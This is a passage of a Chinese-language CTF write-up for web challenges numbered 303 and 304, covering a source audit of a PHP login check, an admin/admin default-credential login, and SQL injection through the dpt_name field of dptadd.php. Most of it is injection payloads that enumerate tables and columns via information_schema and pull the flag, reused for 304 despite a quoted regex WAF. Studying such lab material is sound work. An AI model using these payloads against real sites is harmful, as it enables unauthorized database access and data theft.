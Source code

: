 `if(!isset($_SESSION['login']))`得先登录

这里我本来是想像302一样进去的，但是失败了，还给我弹回个东西

![](https://i.loli.net/2021/10/06/8HPCD7xSZgFT6zy.png)

重新审一下源码：checklogin.php

![](https://i.loli.net/2021/10/06/lijGn2ATLOZuhq4.png)

username长度不得超过6，所以方法不奏效了~
并且引用了fun.php，加了一句`echo sds_decode("admin");`
那么尝试admin/admin登入

成功，然后就是在dptadd.php里注入了

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g')--+
```

```
dpt_name=1',sds_address=(select flag from sds_fl9g)--+
```

![](https://i.loli.net/2021/10/06/kBmEWNKOJ6AGSLU.png)



## 304 sql注入

> hint:
>
> 增加了全局waf
>
> ```php
> function sds_waf($str){
> 	return preg_match('/[0-9]|[a-z]|-/i', $str);
> }
> ```
>
> 

奇怪的是没发现waf，上面的payload还是能用，只不过改了表名：sds_flaag

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_flaag')--+
```
